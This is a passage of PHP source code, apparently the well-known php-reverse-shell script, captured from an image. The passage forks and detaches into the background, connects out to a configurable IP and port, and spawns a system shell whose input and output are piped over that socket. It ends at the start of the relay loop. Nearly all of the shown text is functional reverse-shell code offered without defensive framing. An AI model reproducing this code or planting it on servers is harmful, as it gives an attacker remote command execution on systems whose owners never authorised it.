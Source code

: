 ```
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
```